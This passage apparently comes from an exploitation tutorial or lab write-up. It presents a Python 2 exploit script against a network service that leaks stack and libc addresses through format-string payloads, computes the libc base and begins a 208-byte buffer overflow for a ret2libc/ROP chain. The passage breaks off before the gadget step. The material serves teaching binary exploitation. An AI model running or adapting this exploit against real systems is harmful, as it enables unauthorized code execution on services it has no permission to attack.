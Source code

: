 ### We can then start crafting out an exploit!

Using the data collected above, we can start crafting an exploit!

{% hint style="info" %}
**🚨 Be sure to be conscious of the comments that are throughout the code. Some important enumeration information that is necessary to exploit the target has been commented out for brevity, simplicity, or for the sake of a separate cyber effect (type of vulnerability) to be brought on upon the target.**
{% endhint %}

**`exploit.py`:**

```python
#!/usr/bin/env python2.7

# exploit.py -- featuring a multi-type exploit against a single target
# Featuring ret2win, ret2libc, memory leak address enumeration, and ROP chain

import socket
import time
import struct

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("<victim_ip_here>",<victim_port_here>))
data = s.recv(200)
# Leak Stack Address
print "Step 1: Leak Stack Address!\n";
s.send("%26$lx")            # Seemingly reoccurring address in debugger
leakedStack = s.recv(200)   # Receive 200-bytes
print "[+] Leaked process stack: 0x" + leakedStack   # Print received values from above

print"---------------------------------------------"

# Leak Libc address
print "\nStep 2: Leak libc address from the stack!\n"
print "[!] Leaking libc address and sending format string of %195$ls to our vulnerable program"
s.send("%195$lx")           # Sending format string to program  
leakedLibc = s.recv(200)    # Receive leaked libc address
print "[+] Leaked libc address: 0x" + leakedLibc

leakedStack = int("0x"+leakedStack, 16)
leakedStackTop = leakedStack - 0x1B8
print "[+] Calculated stack top: " + hex(leakedStackTop)

print"---------------------------------------------"

# Calculate Libc Base Address
print "\nStep 3: Calculate libc base address\n"
print "[!] Calculating libc base..."
leakedOffset = 0x52FBC
libcBase = int("0x"+leakedLibc, 16) - leakedOffset
print "[+] Calculated libc base: "  , hex(libcBase)
print"---------------------------------------------"

prefix = "0xfa"

overflow = "A"*208
# Inside GDB -> "p printLog" -> 0x7366a962f0 
# [!] Note: this will change each program execution due to ASLR, be sure to obtain and change each execution
# pc = "\xf0\x62\xa9\x66\x73\x00\x00\x00" 

print"\nStep 4: Obtain gadget and system address\n"
```